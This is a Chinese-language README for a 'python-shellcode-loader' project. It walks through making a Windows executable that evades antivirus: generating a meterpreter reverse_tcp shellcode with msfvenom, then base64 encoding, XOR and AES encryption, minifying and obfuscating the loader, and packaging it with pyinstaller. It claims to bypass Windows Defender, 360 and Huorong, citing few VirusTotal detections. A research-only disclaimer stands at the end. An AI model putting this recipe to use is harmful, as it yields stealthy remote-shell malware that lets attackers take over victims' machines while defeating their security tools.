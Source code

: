 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone [https://github.com/HZzz2/python-shellcode-loader.git](https://github.com/HZzz2/python-shellcode-loader.git)<br />cd python-shellcode-loader
<a name="CuRMC"></a>
## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图
![](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525156343-d09e4ca2-cf34-4fd0-a214-8429d736233d.png#crop=0&crop=0&crop=1&crop=1&from=url&id=pOHgi&margin=%5Bobject%20Object%5D&originHeight=1017&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525200953-17958e93-4b05-4571-b721-1fa0899cab6f.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=609&id=uc52334d8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=761&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=true&size=152617&status=done&style=none&taskId=uf646b4ab-a4ff-4915-ac9c-247f27f5b44&title=%E7%81%AB%E7%BB%92&width=1028.8 "火绒")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525256207-e8a9c46a-c6ed-4dbc-9b23-056590331f50.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=742&id=uba33cae1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=927&originWidth=1256&originalType=binary&ratio=1&rotation=0&showTitle=true&size=151849&status=done&style=none&taskId=ubcd89f76-ab00-4621-9849-4980386bb94&title=360%E6%9D%80%E6%AF%92&width=1004.8 "360杀毒")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525285242-8ab59c49-ba44-4a08-a61c-8553204b4c6b.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=658&id=uc0ddad1f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=823&originWidth=1260&originalType=binary&ratio=1&rotation=0&showTitle=true&size=199897&status=done&style=none&taskId=uf2de339b-8045-4277-af70-6d0879a609b&title=360%E5%AE%89%E5%85%A8%E5%8D%AB%E5%A3%AB&width=1008 "360安全卫士")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525389400-740f14b8-a7d0-49ea-aa96-81f3326ca4aa.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=752&id=u509ce450&margin=%5Bobject%20Object%5D&name=image.png&originHeight=940&originWidth=1908&originalType=binary&ratio=1&rotation=0&showTitle=true&size=103618&status=done&style=none&taskId=ud3c698a7-1fc9-48f1-abdf-20d66f4def9&title=virustotal&width=1526.4 "virustotal")<br />[运行示例.mp4](https://www.yuque.com/attachments/yuque/0/2022/mp4/26697321/1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fmp4%2F26697321%2F1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4%22%2C%22name%22%3A%22%E8%BF%90%E8%A1%8C%E7%A4%BA%E4%BE%8B.mp4%22%2C%22size%22%3A9075464%2C%22type%22%3A%22video%2Fmp4%22%2C%22ext%22%3A%22mp4%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u4f7e269d-9214-4e7e-9b21-dc642edf43e%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22uf2aa31d4%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)
[![运行示例.mp4 (8.66MB)](https://gw.alipayobjects.com/mdn/prod_resou/afts/img/A*NNs6TKOR3isAAAAAAAAAAABkARQnAQ)]()<a name="w6pnE"></a>
https://www.yuque.com/attachments/yuque/0/2022/mp4/26697321/1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fmp4%2F26697321%2F1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4%22%2C%22name%22%3A%22%E8%BF%90%E8%A1%8C%E7%A4%BA%E4%BE%8B.mp4%22%2C%22size%22%3A9075464%2C%22type%22%3A%22video%2Fmp4%22%2C%22ext%22%3A%22mp4%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u4f7e269d-9214-4e7e-9b21-dc642edf43e%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22uf2aa31d4%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D
## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。











